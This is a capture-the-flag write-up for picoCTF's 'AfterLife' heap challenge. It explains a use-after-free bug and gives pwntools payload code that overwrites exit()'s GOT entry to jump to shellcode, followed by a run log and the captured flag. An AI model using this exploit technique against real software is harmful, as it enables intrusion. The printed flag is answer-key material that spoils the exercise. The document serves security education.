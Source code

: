 # AfterLife

## Problem

> Just pwn this program and get a flag. It's also found in /problems/afterlife_2_049150f2f8b03c16dc0382de6e2e2215 on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. This problem is nearly identical to the "SecondLife" challenge. I recommend reading that write-up first since it covers the concepts needed to understand the following steps. Compared to "SecondLife," instead of freeing the first chunk twice, this program simply writes to the first chunk on lines 32 and 33 after it has been freed on line 29. This is known as a use-after-free exploit. The setup is exactly the same as the double-free exploit. The call to `malloc()` on line 34 replaces the GOT address of `exit()` with the address of the shellcode, and the call to `exit()` on line 35 invokes the shellcode.

2. Use-after-free vulnerability:

    ```c++
    free(first); // <-- 'first' is freed
    free(third);
    fifth=malloc(128);
    puts("you will write on first after it was freed... an overflow will not be very useful...");
    gets(first); // <-- 'first' is used
    ```

3. We can use the same payload code as before:

    ```python
    shell_code = asm('jmp l1; nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop; l1: push {}; ret;'.format(hex(exe.symbols["win"])))
    payload = p32(exe.got["exit"] - 12) + p32(address + 8) + shell_code
    ```

    We add 8 bytes to address (which is the base address of the `first` buffer) since that's where we located our shellcode, right after `p32(exe.got["exit"] - 12) + p32(address + 8)`.

4. Note: Line 25 in this challenge is different than in "SecondLife". `fgets(first, LINE_BUFFER_SIZE, stdin);` was changed to `strncpy(first,argv[1],LINE_BUFFER_SIZE);`. So we need to specify and argument to the process when we launch it from the command line to get past line 25. Previously we just sent a single enter since `fgets` was used instead of `strncpy`.

5. Run the [script.py](script.py) `python script.py USER=<username> PASSWORD=<password>`:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/AfterLife/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [+] Connecting to 2019shell1.picoctf.com on port 22: Done
    [*] <username>@2019shell1.picoctf.com:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Opening new channel: 'pwd': Done
    [+] Receiving all data: Done (14B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] Working directory: '/tmp/tmp.iglmDgay5w'
    [+] Opening new channel: 'ln -s /home/<username>/* .': Done
    [+] Receiving all data: Done (0B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] win address: 0x8048966
    [*] exit address: 0x804d02c
    [+] Starting remote process b'/problems/afterlife_2_049150f2f8b03c16dc0382de6e2e2215/vuln' on 2019shell1.picoctf.com: pid 1695575
    [*] first address: 0x8836008
    [*] shellcode:
        00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 66  │····│····│····│··hf│
        00000010  89 04 08 c3                                         │····│
        00000014
    [*] payload:
        00000000  20 d0 04 08  10 60 83 08  eb 0c 90 90  90 90 90 90  │ ···│·`··│····│····│
        00000010  90 90 90 90  90 90 68 66  89 04 08 c3               │····│··hf│····│
        0000001c
    [+] picoCTF{what5_Aft3r_187f3d9a}
    ```

### Flag

`picoCTF{what5_Aft3r_187f3d9a}`

